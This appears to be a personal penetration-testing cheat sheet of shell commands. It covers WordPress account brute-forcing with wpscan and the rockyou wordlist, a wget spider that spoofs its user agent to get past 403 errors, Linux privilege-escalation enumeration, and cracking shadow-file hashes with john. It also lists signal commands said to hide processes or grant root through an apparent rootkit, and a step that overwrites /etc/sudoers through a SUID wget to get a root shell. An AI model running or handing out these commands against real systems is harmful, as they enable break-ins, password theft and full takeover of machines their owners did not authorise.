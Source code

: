 ### Delete Node modules

`rimraf node_modules`

### Wordpress <a name="wpscan"></a>

- `wpscan --url http://mysite.com/ -e vp --api-token TOKEN -o wpscan.txt`
- `wpscan --url http://mysite.com/blog --usernames admin --password /usr/share/wordlists/rockyou.txt --max-threads 50`

## Bypasses <a name="bypasses"></a>

### 403 forbidden

- `wget --user-agent="User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:32.0) Gecko/20100101 Firefox/21.0" -r -nc -nH -np -e robots=off https://mysite.com`

## Privesc <a name="privesc"></a>

- `hostname`
- `uname -a`
- `cat /proc/version`
- `cat /etc/issue`
- `cat /etc/crontab`
- `cat /etc/exports`
- `cat /etc/group`
- `ps aux`
- `env`
- `sudo -l`
- `getcap -r / 2>/dev/null`
- `ls -l $(which pkexec)`
- `cat /etc/passwd | cut -d ":" -f 1` <-- cut -delimiter ":" -field 1
- `find / -type f -perm -04000 -ls 2>/dev/null`
- `unshadow passwd.txt shadow.txt > unshadowed.txt`
- `john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`
- `lsattr <file>` < -- get file permissions

MITRE
Show kernel modules:

- `lsmod`
  Unhide processes:
- `kill -63 0`
  Hide processes:
- `kill -31 <pid>`
  Get root priv:
- `kill -64 0`

## Password bypass

- `cd /tmp && echo "www-data ALL=NOPASSWD:ALL" > sudoers`
- Find a program that gives you escalated privs `find / -type f -perm -04000 -ls 2>/dev/null`
- In this case it is wget `wget http://127.0.0.1/sudoers -O /etc/sudoers`
- `sudo bash`
